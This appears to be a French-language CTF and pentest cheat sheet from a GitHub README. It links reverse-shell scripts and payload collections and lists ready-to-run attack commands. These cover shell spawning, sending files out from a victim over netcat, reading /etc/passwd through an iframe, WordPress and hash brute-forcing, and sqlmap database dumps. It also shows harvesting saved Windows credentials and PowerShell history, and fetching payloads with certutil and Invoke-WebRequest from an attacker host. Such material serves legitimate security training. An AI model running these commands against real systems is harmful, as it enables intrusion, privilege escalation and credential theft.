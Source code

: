 ```
===========================================

_______________________________ /\ 
\_   ___ \__    ___/\_   _____/ )/______
/    \  \/ |    |    |    __)    /  ___/
\     \____|    |    |     \     \___ \ 
 \______  /|____|    \___  /    /____  >
        \/               \/          \/ 

============================================
```
# Énumeration

[ENUM] linPEAS : https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS <br>
[ENUM] winPEAS : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat (.bat) <br>

# Objectif Reverse shell !

[SHELL] Netcat for windows : https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip <br>
[SHELL] Hacker tools : https://addons.mozilla.org/en-US/firefox/addon/hacktools/ <br>
[SHELL] Reverse Shells : https://www.revshells.com/ <br>
[SHELL] Reverse shell php : https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php <br>

# Utiles

[MISC] subdomains.txt : https://raw.githubusercontent.com/danTaler/WordLists/master/Subdomain.txt <br>
[MISC] Bypass authentication : https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass <br>
[MISC] PAYLOADSALLTHETHINGS : https://github.com/swisskyrepo/PayloadsAllTheThings (reverse shell, etc...) <br>
[MISC] Binaries exploit : https://gtfobins.github.io/ <br>


-------------------------------------------------------------------------------------------------------------------------------------------+
# Basiques !
```
[+] => INFO GATHERING           - sudo -l
[+] => SPAWN SHELL USING PYTHON - python3 -c 'import pty; pty.spawn("/bin/sh")'
[+] => SPAWN SHELL USING BASH   - bash -i
[+] => TRANSFER FILE VIA NETCAT - [victime] nc -nv <ip> 1337 < <file_to_transfer> | [attacker] nc -lnvp 1337 > <file_to_transfer>
```
-------------------------------------------------------------------------------------------------------------------------------------------+
# Linux
```
[CMD](JS)        => <iframe src=file:///etc/passwd></iframe>
[CMD](WordPress) => wpscan => ex (brute force mdp) wpscan --url 10.10.180.74/blog -U admin -P /usr/share/wordlists/rockyou.txt
[CMD](misconfig) => bash -p
[CMD](BINARIES)  => find / -user root -perm -4000 -exec ls -ldb {} \;
[CMD](GOBUSTER)  => gobuster dir -u <url> -w=/usr/share/wordlists/dirb.../<list> -b <status_code_to_exclude>
[CMD](NMAP/SMB)  => nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP  (SAMBA)
                    smbclient //<ip>/anonymous (-U pour un utilisateurs)
                    smbget -R smb://<ip>/anonymous
[CMD](FFUF)      => ffuf -c -w /usr/share/wordlists/subdomains.txt -u http://domain.com/ -H "Host: FUZZ.domain.com" -fc 301
[CMD](list)      => msfvenom -l payloads | grep windows | grep reverse | grep shell  (exemple)
[CMD](decrypt)   => john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt  --format=<format>
[CMD](sql)       => sqlmap -r file.txt --dbms=mysql --dump | (après avoir copier une requête Burp dans un fichier txt)
[CMD](ftp)       => wget -m --no-passive ftp://anonymous:anonymous@<IP>  (download tout)
```
# Windows


```
[RDP]            => xfreerdp /d:<domain> /u:'<user>' /p:'<password>' /v:<prefix>.<domain> /drive:.,kali-share +clipboard

[CMD](WIN)*PS*   => Invoke-WebRequest -Uri "http://<ip>:<port>/<file>" -Outfile <outfile>
[CMD](WIN)*PS*   => Expand-Archive <file.zip>
[CMD](WIN)*PS*   => type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt (ou %userprofile% avec CMD)
[CMD](WIN)*PS*   => cmdkey /list  #liste les creds sauvegardés
[CMD](WIN)*PS*   => runas /savecred /user:admin cmd.exe  #exécute l'action avec les credentials sauvegardés
[CMD](AD)*PS*    => Set-ADUser -ChangePasswordAtLogon $true -Identity <user> -Verbose

[CMD](WIN)*CMD*  => certutil.exe -urlcache -f http://<ip>:<port>/file.exe new_file.exe
```
# Windows IIS Configuration
![image](https://user-images.githubusercontent.com/97956863/231268829-26242927-066f-47be-a4c4-cab613374d7f.png)

```

```


-------------------------------------------------------------------------------------------------------------------------------------------+
<br>
[?] Using "-p" on an SUID file will run it with the permission of the owner. Ex if root own a file and you run it (non-root) using "-p" you will run it with root perm
